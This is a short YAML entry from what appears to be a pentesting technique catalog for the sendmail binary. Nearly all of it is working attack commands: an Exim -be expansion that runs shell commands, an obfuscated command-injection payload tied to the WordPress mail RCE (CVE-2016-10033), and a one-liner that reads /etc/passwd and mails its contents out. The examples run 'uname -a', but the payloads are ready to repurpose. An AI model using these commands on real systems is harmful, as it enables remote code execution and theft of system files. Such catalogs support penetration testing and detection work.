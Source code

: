 ```yaml
---
description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
functions:
  command:
    - description: The -be flag can be used to execute system commands, when sendmail is provided by Exim4. 
      code: |
        sendmail -be '${run{/bin/sh -c "uname -a"}{yes}{no}}'
    - description: See [\"PoC HTTP request / minimal PoC exploit\"](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html) for more information about this exploit. This example runs `uname -a`.
      code: |
        sendmail -t -i -f 'email@address.com(tmp1' -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}uname${substr{10}{1}{$tod_log}}-a$}}' 'tmp2)'

  file-upload:
    - description: Arbitrary files can be delivered.
      code: |
        sendmail -t -i -f mail@address.com -C/etc/passwd -X/dev/null < mail.txt
---
```

